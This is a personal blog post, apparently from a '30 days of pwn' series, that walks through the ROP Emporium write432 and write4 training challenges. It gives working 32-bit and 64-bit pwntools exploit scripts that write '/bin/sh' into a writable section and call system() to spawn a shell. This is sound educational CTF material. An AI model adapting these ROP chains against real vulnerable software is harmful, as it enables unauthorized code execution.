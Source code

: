 ```yaml
---
layout: post
title:  "Ropemporium Day Five"
date:   2020-07-05 20:05:48 +0100
categories: pwn
---
```


Here is Day 5 of the 30 days of pwn challenge. As a side note, I'm not sure how I will progress from this point. I think I will follow a mixture of writeups and revision to progress with some of these (probably basic but feels advanced) subjects. I will **hopefully** be able to challenge myself with some of the pwn section from [htb](https://www.hackthebox.eu/home/challenges/Pwn). But I think I will just be happy to have learnt a few things that I can build upon in the future!

## Write432
In this challenge, the goal is to write into a section of the code that we have write privileges to, and use that to write in the string "/bin/sh" before passing that string into the system call given to us.

This can be done with a few steps as seen in the exploit code.

First thing to do is to identify an area of the code that we can write to.
`gdb-peda$ maintenance info sections`
```
 [17]     0x8048798->0x80488a4 at 0x00000798: .eh_frame ALLOC LOAD READONLY DATA HAS_CONTENTS
 [18]     0x8049f08->0x8049f0c at 0x00000f08: .init_array ALLOC LOAD DATA HAS_CONTENTS
 [19]     0x8049f0c->0x8049f10 at 0x00000f0c: .fini_array ALLOC LOAD DATA HAS_CONTENTS
 [20]     0x8049f10->0x8049f14 at 0x00000f10: .jcr ALLOC LOAD DATA HAS_CONTENTS
 [21]     0x8049f14->0x8049ffc at 0x00000f14: .dynamic ALLOC LOAD DATA HAS_CONTENTS
 [22]     0x8049ffc->0x804a000 at 0x00000ffc: .got ALLOC LOAD DATA HAS_CONTENTS
 [23]     0x804a000->0x804a028 at 0x00001000: .got.plt ALLOC LOAD DATA HAS_CONTENTS
 [24]     0x804a028->0x804a030 at 0x00001028: .data ALLOC LOAD DATA HAS_CONTENTS
 [25]     0x804a040->0x804a06c at 0x00001030: .bss ALLOC
```
From running the `maintenance info sections` we can see the flags that different sections of the program have.

As you can see ".eh_frame" has the "READONLY" flag, and as such we would not be able to write there. Luckily, we have a plethora of places to choose, as every other section I have shown is writable.

Now we can use the gadgets given to us, to write the string into memory (4 bytes at a time, making sure both payloads are infact 4 bytes.)

And finally call system with the address of we wrote to, to spawn a shell from the binary.
### Exploit Code
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

mov_ebp_edi = p32(0x08048670) #0x08048670 : mov dword ptr [edi], ebp ; ret
pop_edi_ebp = p32(0x080486da) #0x080486da : pop edi ; pop ebp ; ret
got_plt = 0x804a000 + 100
system  = p32(0x8048430)
offset  = 'A' * 44

payload = offset
payload += pop_edi_ebp
payload += p32(got_plt)
payload += "/bin"
payload += mov_ebp_edi

payload += pop_edi_ebp
payload += p32(got_plt + 4)
payload += "/sh\x00" 
payload += mov_ebp_edi

payload += system
payload += "aaaa"
payload += p32(got_plt)

p = process("write432")
p.sendline(payload)
p.interactive()
```


## write4

The 64bit version of this challenge is the same idea, though due to being 64bit, there are some differences.

In this version we can write the entire string in 1 payload (64bit is 8 bytes so we have room this time.). So the idea is to first write the payload to the got.plt section and then call system with what we wrote as a paramater.

### Exploit Code
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

mov_r15_r14 = p64(0x0000000000400820) #0x0000000000400820 : mov qword ptr [r14], r15 ; ret
pop_r14_r15 = p64(0x0000000000400890) #0x0000000000400890 : pop r14 ; pop r15 ; ret
pop_rdi     = p64(0x0000000000400893) #0x0000000000400893 : pop rdi ; ret
got_plt = 0x00601000
system  = p64(0x4005e0)
offset  = 'A' * 40

payload = offset
payload += pop_r14_r15
payload += p64(got_plt)
payload += "/bin/sh\x00"
payload += mov_r15_r14

payload += pop_rdi
payload += p64(got_plt)
payload += system

p = process("write4")
p.sendline(payload)
p.interactive()
```
Today is definitely a less productive one for me. I think from tomorrow I will continue the journey by going through some content on [tryhackme](https://tryhackme.com/). I would continue with tryhackme today, but I think it will also make more sense to split content into different posts where possible, also I would like to spend some more time working on the new Hackthebox content in the meantime.
